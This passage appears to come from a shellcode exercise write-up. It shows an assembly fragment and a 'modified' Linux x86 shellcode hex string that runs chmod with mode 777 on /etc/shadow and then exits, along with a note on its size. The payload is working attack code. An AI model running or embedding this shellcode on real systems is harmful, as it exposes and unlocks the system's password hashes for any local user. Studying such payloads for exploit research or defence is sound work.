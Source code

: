 ```
two:
	call one
	shell: db '/etc/shadow'
```

Modified shellcode:

	\xeb\x15\x90\x90\x5b\x31\xc9\xf7\xe0\x51\xb0\x0f\x89\xdc\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80\xe8\xe8\xff\xff\xff\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77

Even with the 2 NOPs the final shellcode is approximatley **118%** of the original one.
